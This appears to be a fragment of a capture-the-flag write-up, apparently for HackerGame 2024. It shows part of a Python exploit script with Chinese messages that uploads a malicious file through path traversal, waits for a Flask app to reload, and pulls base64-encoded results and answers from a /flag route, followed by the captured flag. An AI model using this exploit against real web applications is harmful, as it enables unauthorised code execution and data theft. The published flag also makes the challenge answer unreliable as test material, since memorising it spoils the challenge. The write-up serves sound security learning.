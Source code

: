 ```Plain Text
            return True
        else:
            print("[-] 恶意文件上传失败。请检查路径遍历是否有效。")
            return True
    except Exception as e:
        print(f"[-] 上传过程中出现异常: {e}")
        return False

def get_flag():
    try:
        response = requests.get(BASE_URL + 'flag', verify=False)
        if response.status_code == 200:
            data = response.json()
            results_base64 = data.get("results_base64")
            answers_base64 = data.get("answers_base64")

            # 解码 results.json
            results_json = base64.b64decode(results_base64).decode('utf-8')
            # 写入本地
            with open("results.json", "w") as f:
                f.write(results_json)
            print("[+] results.json已保存到本地。")

            # 解码 answers.json
            answers_json = base64.b64decode(answers_base64).decode('utf-8')
            # 写入本地
            with open("answers.json", "w") as f:
                f.write(answers_json)
            print("[+] answers.json已保存到本地。")
        else:
            print(f"[-] 访问/flag路由失败，状态码: {response.status_code}")
            print(f"内容: {response.text}")
    except Exception as e:
        print(f"[-] 获取flag时出现异常: {e}")

if __name__ == "__main__":
    print("[*] 开始上传恶意文件...")
    if upload_malicious_file():
        print("[*] 等待Flask应用重新加载...")
        time.sleep(5)  # 等待5秒确保应用重载
        print("[*] 尝试获取flag...")
        get_flag()
    else:
        print("[-] 无法继续，恶意文件上传失败。")

```

处理answer.json

flag{uno!!!!_esrever_now_U_run_MY_c0deb66b153979}

![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 29.png)

